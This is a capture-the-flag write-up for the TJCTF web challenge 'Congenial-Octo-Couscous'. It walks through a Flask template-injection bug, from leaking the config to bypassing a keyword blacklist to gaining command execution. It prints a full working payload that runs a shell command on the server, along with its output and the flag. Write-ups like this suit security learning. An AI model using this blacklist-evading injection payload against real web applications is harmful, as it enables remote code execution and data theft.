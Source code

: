 # Congenial-Octo-Couscous
Web, 70

>  Written by avz92
>  Team Congenial-Octo-Couscous is looking to replace one of its members for the Battlecode competition, who carried the team too hard and broke his back. Until a neural net can take his place, the team wants a 4th member. Figure out how to join the team and read the secret strategy guide to get the flag. 

When we try to register an account, it echos our username. If we enter `{{config}}` as our username, we get the config variables. One stands out in particular: `"SERVER_FILEPATH": "/secretserverfile.py"`. We use this to find the [source](https://congenial_octo_couscous.tjctf.org/secretserverfile.py). Essentially, we have to use template injection to get RCE, but there is a blacklist of `['"', 'class', '[', ']', 'dict', 'sys', 'os', 'eval', 'exec', 'config.']`.

Python functions objects have very handy `__globals__` properties with lots of stuff in them. Messing around with `flask` locally lets us identify a function that has the `os` module in its globals:

```
request.environ['gunicorn.socket'].dup.__func__.__globals__
```

Since we can't use square brackets, we instead call `__getitem__`, and use `subprocess.check_output` to get the output of arbitrary code:

```python
>>> import html, requests
>>> print(eval(html.unescape(requests.post("https://congenial_octo_couscous.tjctf.org/apply", data="fname=&lname=&email=&username={{request.environ.__getitem__('gunicorn.socket').dup.__func__.__globals__.__getitem__('o''s').__builtins__.__getitem__('__import__')('subprocess').check_output(('bash','-c','cat strategyguide.txt'))}}", headers={"content-type": "application/x-www-form-urlencoded; charset=UTF-8"}).text)[7:-48]).decode())
Best formation that wins every time:
DDDDD
DLLLD
DLHLD
DLLLD
DDDDD

Key:
D=Drone
L=Landscaper
H=HQ

Beginning of game strategy:
tjctf{c0ng3n1al_500iq_str4ts_ez_dub}
```

Flag: `tjctf{c0ng3n1al_500iq_str4ts_ez_dub}`